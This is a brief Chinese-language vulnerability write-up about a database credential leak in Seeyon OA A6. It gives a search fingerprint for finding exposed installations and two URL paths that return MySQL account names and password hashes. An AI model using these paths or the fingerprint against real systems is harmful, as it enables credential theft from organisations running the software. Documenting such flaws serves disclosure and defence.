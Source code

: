 # 

# 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

当访问如下URL时执行了SQL语句 `select *from mysql.user;` 进行查询并返回到页面中

```
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```

![image-20220520152725777](./images/202205201527828.png)

![image-20220520152737237](./images/202205201527304.png)
